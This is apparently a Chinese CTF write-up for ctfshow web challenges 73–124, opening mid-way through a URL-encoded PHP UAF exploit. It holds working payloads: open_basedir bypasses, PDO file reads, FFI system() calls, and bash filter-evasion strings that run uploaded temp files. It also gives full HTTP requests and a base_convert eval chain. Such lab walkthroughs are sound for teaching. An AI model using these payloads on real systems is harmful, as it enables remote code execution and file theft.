0%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflag0.txt%22)%3Bob_end_flush()%3B%0A%3F%3E%0A
```

## Web73

这题没有Open_basedir限制，直接目录遍历加读文件即可这里的flag在/flagc.txt中

## 方法一

payload

```
c=$a=new DirectoryIterator("/");foreach($a as $f){echo($f->__toString().' ');} exit(0);
c=(new SplFileObject("/flagc.txt"))->fpassthru();
```

## Web74

与上一题一样

## Web75：PDO数据库读文件

需要用glob://伪协议绕过open_basedir,扫描到了目录尝试命令执行UAF部分函数被禁用，不会绕

```
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);
```

参考hint用到了php的PDO连接数据库使用mysql数据库的load_file()进行文件读取

```
c=echo "test\n";try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo $row[0]."\n";$dbh=null;}}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
```

## Web76

与上一题一样

## Web77：FFI命令执行方法

第一步目录遍历与上一题一样

```
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);
在用mysql数据库读文件的时候出现了问题
payload:
c=echo "test\n";try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36x.txt")') as $row){echo $row[0]."\n";$dbh=null;}}catch (PDOException $e) {echo "[ERROR]: ".$e->getMessage();exit(0);}exit(0);

错误
[ERROR]: could not find driver
```

但是在遍历目录的时候找到了一个readflag根据


根据hint用的是FFI命令执行的方法，可以看到如下代码执行了系统命令

```
# 这里%26是&的url编码，不然会被识别成参数分隔符
c=$ffi = FFI::cdef("int system(const char *command);");$a='whoami >> 1.txt%26%26id >> 1.txt%26%26ls >> 1.txt';$ffi->system($a);
```

> PHP中的FFI（Foreign Function Interface）是一个允许你在PHP代码中直接调用C语言库的扩展。这意味着你可以在PHP中直接使用C、Go、Rust等编写的共享库，而无需通过编写PHP扩展来桥接。FFI提供了一种机制，让你能够将PHP函数绑定到C库，从而在PHP中直接调用C库中的函数。
>
> FFI的主要特点包括：
>
> 1. **直接调用C库**：你可以在PHP中直接调用C语言编写的库，这为PHP开发者提供了访问大量现有C库的能力。
> 2. **性能优化**：通过FFI调用C库函数，可以提高性能，因为C库通常是经过优化的，执行速度更快。
> 3. **代码重用**：你可以在新项目中复用现有的C语言库，而无需完全用PHP重写。
> 4. **平台或硬件特定的功能**：某些特定平台或硬件的功能可能没有PHP的直接支持，但可以通过C语言调用。FFI允许开发者通过C语言编写的函数来访问这些功能。
> 5. **遗留系统集成**：FFI可以用来与遗留系统进行交互，特别是当这些系统是用不同的编程语言编写且不易更改时。
>
> 使用FFI时，通常需要以下步骤：
>
> - 定义外部函数的签名，使得PHP知道如何映射和调用C语言的函数。
> - 确保外部函数是“可见的”，这通常意味着需要将其编译为共享库（如动态链接库DLL或共享对象SO）。
> - 在PHP中加载和调用这些外部函数。
>
> FFI在PHP 7.4及以上版本中可用，并且已经成为PHP的一个内置扩展。通过FFI，PHP开发者可以更容易地利用C语言的强大功能，扩展PHP的应用范围。


既然执行了系统命令直接cat /flag36x.txt >> 1.txt就可以获取flag了但是查看发现并没有获取flag

ls / -liah >>1.txt查看了下/目录文件，flag36x.txt并不为空，仔细看flah36x.txt为root用户创建且权限为- r-- r-- ---也就是除了root以外的其他用户都不能读该文件，但是readflag是个可执行文件，并且所有人都具有执行权限，所有考虑FFI执行readflag


payload
```
c=$ffi = FFI::cdef("int system(const char *command);");$a='/readflag > 2.txt';$ffi->system($a);
```


## Web118

fuzz：测试未被过滤字符发现只有`[A-Z]@#$~-`可以通过，本来想用php临时文件的方式绕过但是/和[]都被过滤了


## 思路一：

看了下hint用了bash环境变量的方式+bash字符串操作的方式构造了payload

payload

```
$PATH一般结尾是/bin,这里的$PWD又是/var/www/html
code=${PATH:~A}${PWD:~A}$IFS????.???   # 等于nl ????.??? ，题目中说了flag在flag.php中
flag=ctfshow{640a7471-0143-4df0-a5e7-9057c321507c}
```

### 思路二：php临时文件执行命令

根据上面的方法我又试着构造了下构造出了 / ,但是构造不出[]所以直接将最后以为固定为一个大写字母C,只要不断发包就有可能出现C结尾的临时文件

```
. /???/????????[@-[]
# payload
.$IFS${PWD%%????????????}???${PWD%%????????????}????????C
```

本地测试结果如下：


但是测试发送时发现%%也被过滤了

参考hint构造了

```
${PWD:Z:${#SHLVL}} ==> /
这里:Z字母都会变成0,任何字母都可以，也可以用${#} ${#SHLVL} ==>1
.$IFS${PWD:Z:${#SHLVL}}???${PWD:Z:${#SHLVL}}????????C

POST / HTTP/1.1
Host: abb59716-e2bc-4e19-b2e6-acddfab13755.challenge.ctf.show
Content-Length: 447
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryThAVkFWYrukHq9ZA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="file"; filename="sh_script.sh"
Content-Type: text/x-sh

#!/bin/sh

ls
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="code"

.$IFS${PWD:${Z}:${#SHLVL}}???${PWD:${Z}:${#SHLVL}}????????C
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="submit"

提交1
------WebKitFormBoundaryThAVkFWYrukHq9ZA--

```

遍历用instructor重复发包成功执行命令


其他师傅的payload

```
${PATH:~A}${PWD:~A}$IFS????.???
# 这里不知道怎么看到HOME的
${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}} ?${PATH:${#RANDOM}:${#SHLVL}}??.???

${PATH:~A}${PATH:${#TERM}:${SHLVL:~A}} ????.???
```

### bash构造常量
> By rbeopad of
>
> ##### 我不知道他们那些$HOME $USER是怎么知道的,看了几个blog知道以下的几个知识点
>
> 0：${#}；
>
> 1：${#SHLVL}=1，或者${##}、${#?}。
>
> 2：${SHLVL}=2 （SHLVL是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时$SHLVL=1，然后在此shell中再打开一个shell时$SHLVL=2。）
>
> 3：${#IFS}=3。（linux下是3，mac里是4）
>
> $PWD这个在做题的时候由118题可以知道默认的位置是在 /var/www/html
>
> ##### 于是结合hips构造出自己的答案：
>
> /bin/cat flag.php
>
> /???/?at ?l??.php
>
> ### 
>
> ${PWD:${#}:${##}} = {${PWD}:0:1} = /
>
> ${PWD:${SHLVL}:${#SHLVL}} = ${PWD:2:1} = a
>
> ${PWD:~${SHLVL}:${#SHLVL}} = ${PWD:-2:1} = t
>
> ${PWD:~A} = 取最后一位 = l
>
> ### 
>
> ${PWD:${#}:${##}}???${PWD:${#}:${##}}?${PWD:${SHLVL}:${#SHLVL}}${PWD:~${SHLVL}:${#SHLVL}}$IFS?${PWD:~A}??.???

## Web119

FUZZ测试后过滤字符跟上一题一样

直接用上面php临时文件执行命令的方法就可以


其他payload

```
${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   t

${PWD:${Z}:${#SHLVL}}    ====>   /

/bin/cat flag.php

${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

## Web120

题目：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

与上一题一样

```
POST / HTTP/1.1
Host: a1255371-ddd0-49cd-b68d-a07e4f91d7bf.challenge.ctf.show
Content-Length: 458
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryThAVkFWYrukHq9ZA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="file"; filename="sh_script.sh"
Content-Type: text/x-sh

#!/bin/sh

cat flag.php
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="code"

.$IFS${PWD:${Z}:${#SHLVL}}???${PWD:Z:${#SHLVL}}????????C
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="submit"

提交27
------WebKitFormBoundaryThAVkFWYrukHq9ZA--

```


其他师傅的payload

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
${PWD::${##}}???${PWD::${##}}??${PWD:~${SHLVL}:${##}} ????.???

${#SHLVL}=${##}=${#?}=1
构造/bin/cat ????.???
PWD=/var/www/html
所以PWD的第一位就是/
所以${PWD::${##}}=${PWD:0:1}=/
所以${PWD::${##}}???${PWD::${##}}??t ????.???
其中t可以取PWD倒数第三位即序号-2
${PWD:~${SHLVL}:${#SHLVL}} = ${PWD:-2:1} = t
这里为了更短一些可以将${#SHLVL}换成${##}
所以最终payload:
${PWD::${##}}???${PWD::${##}}??${PWD:~${SHLVL}:${##}} ????.???
```

有一种输出方法叫：rev，其目录在/bin/rev; 他的作用是逆序输出，得到结果再逆序回来就好，蛮好用的； ${PWD:${#IFS}:${##}}在/var/www/html可以取第四位，刚好是r,然后后面用通配符匹配一下；
```
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.???
```

这里在kali里面试了下不一定匹配到/bin/rev


改进了下增加匹配概率

```
# payload是这样的
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.???

${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? --> /???/r??
不能准确匹配到/bin/rev的原因也很简单就是匹配参数太少
这里由于PWD（/var/www/html）里有v字母
${PWD:${##}:${##}} --> v
改进后的payload,不过对于这题来说超长了
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?${PWD:${##}:${##}} ????.???
```


## Web121

题目：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

原来php临时文件命令执行的方法payload的参数被过滤了

```
# SHLVL被过滤${#SHLVL} --> 1
.$IFS${PWD:${Z}:${#SHLVL}}???${PWD:${Z}:${#SHLVL}}????????C
# 这里可以用${##} --> 1 代替
.$IFS${PWD:${Z}:${##}}???${PWD:${Z}:${##}}????????C
```

```
POST / HTTP/1.1
Host: f3d00353-2e3e-4a6d-b728-3fc6d548da7d.challenge.ctf.show
Content-Length: 452
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryThAVkFWYrukHq9ZA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="file"; filename="sh_script.sh"
Content-Type: text/x-sh

#!/bin/sh

cat flag.php
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="code"

.$IFS${PWD:${#}:${##}}???${PWD:${#}:${##}}????????C
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="submit"

提交2
------WebKitFormBoundaryThAVkFWYrukHq9ZA--

```




其他师傅wp

```
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.??? --> /???/r?? ????.???
# 这个思路不错
/bin/base64 flag.php → /???/?????4 ????.??? → ${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.??? 摇骰子，随机到4位数就行
```

> 一、赌狗法，试了，没成功，几率很小
>
> code=${PWD::${##}}???${PWD::${##}}?${PWD:${#RANDOM}:${##}}? ????.???
>
> 二、依旧折磨PWD这个haosao
>
> ${PWD::${##}}???${PWD::${##}}??${PWD:${##}${#}:${##}} ????.???
>
> 尽量精简，用/var/www/html构造/???/??t ????.???
>
> 正好${##}${#} -> 10
>
> PWD第十位是t，第一位是/


## Web122

题目：

```

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

FUZZ看了可以用的字符


发现一个之前过滤的关键字符没被过滤 `<` 不知道是不是突破点

这里pwd也被过滤前面php临时文件执行命令的方法要找代替只要变量中有/都可以构造

```
.$IFS${PWD:${#}:${##}}???${PWD:${#}:${##}}????????C
.$IFS${SHELL:${#}:${##}}???${SHELL:${#}:${##}}????????C
.$IFS${HOME:${#}:${##}}???${HOME:${#}:${##}}????????C
.$IFS${PATH:${#}:${##}}???${PATH:${#}:${##}}????????C
.$IFS${XDG_RUNTIME_DIR:${#}:${##}}???${XDG_RUNTIME_DIR:${#}:${##}}????????C
.$IFS${SSH_AUTH_SOCK:${#}:${##}}???${SSH_AUTH_SOCK:${#}:${##}}????????C
.$IFS${XDG_GREETER_DATA_DIR:${#}:${##}}???${XDG_GREETER_DATA_DIR:${#}:${##}}????????C
.$IFS${XDG_SEAT_PATH:${#}:${##}}???${XDG_SEAT_PATH:${#}:${##}}????????C
.$IFS${XAUTHORITY:${#}:${##}}???${XAUTHORITY:${#}:${##}}????????C
```

#也被过滤了要找变量替代${#}(0)和${##}(1)

这里想半天没想出来看了hint

```
通过$?来实现的，$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

payload:code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
#可能存在成功的机会，不断刷新
```

> 构造错误命令，使$?的结果为1，代替${##}来分割，可以用命令<A然后下一条命令中的$?就等价于1了，因此可以构造/bin/base64 flag.php => /???/????6? ????.??? => <A;${HOME::$?}???${HOME::$?}????${RANDOM::$?}? ????.??? 要多试几次，长度较长的那个包里边包含正确结果


这里用了hint的思路来构造php临时文件执行命令的payload

```
code=<A;.$IFS${HOME::$?}???${HOME::$?}????????C

POST / HTTP/1.1
Host: 0cbff8e6-954b-4151-9442-c95295ddaf04.challenge.ctf.show
Content-Length: 443
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryThAVkFWYrukHq9ZA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="file"; filename="sh_script.sh"
Content-Type: text/x-sh

#!/bin/sh

cat flag.php
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="code"

<A;.$IFS${HOME::$?}???${HOME::$?}????????C
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="submit"

提交5
------WebKitFormBoundaryThAVkFWYrukHq9ZA--

```


## Web124：数学函数构造rce

题目

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

假设这里要使content执行`cat *`

base_convert函数用于任意进制转换，16进制只有[0-9]和[a-f]，要用来构造[a-z]的字符就就应该用36进制（10+26）

由于不能传入除了可用函数以外的字母组合，所以要执行system只能使用base_convert将数字转换成字母

```php
<?php
echo base_convert("cat",36,10).' ';
echo base_convert("system",36,10).'    ';
echo base_convert(1751504350,10,36).' '.base_convert(15941,10,36);
echo " *"^asin^pow.' ';
echo dechex(22)^asin^pow;
?>
```


由上面脚本得到1751504350 --> system，15941 --> cat

接下来构造`  *`

由于异或运算规则如下：

```
a^a=0
0^b=b
=>a^b^a^b=0
=>a^b^a^b^c=c
=>(a^b)^(a^b^c)=c
```

现在c是`  *`但是由于c不能写在payload中会被墙，所以现在隐藏c的办法就是传入(a^b^c)进去之后在通过(a^b)^(a^b^c)还原c，但是让a b过墙又成了问题，能过墙的只有白名单里的函数名和数字，所以就从白名单里面取a、b做运算(a^b^c)使得(a^b^c)也能过墙

```php
['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh']
```

根据上面的推理得到如下脚本：

```php
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
$whitelist2 = ['acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh', 'abs'];

foreach ($whitelist as $i) {
    foreach ($whitelist2 as $k) {
        $payload = $k^$i^" *";
        # 匹配$payload为数字时
        if (preg_match('/^\d+$/', $payload)) {
            echo $payload;
            echo "   " . $i . " " . $k . "\n";
        }
    }
}
?>
```


这样随机选一组构造`  *`即可不过这里异或之后输出的值是16进制要用来，异或构造payload需要转换成十进制

这里选用

```php
echo " *"^asin^pow.' ';
echo dechex(22)^asin^pow;  # (16)16 = (22)10
```


最终的payload

```
/?c=base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(22)^asin^pow))
```

flag:


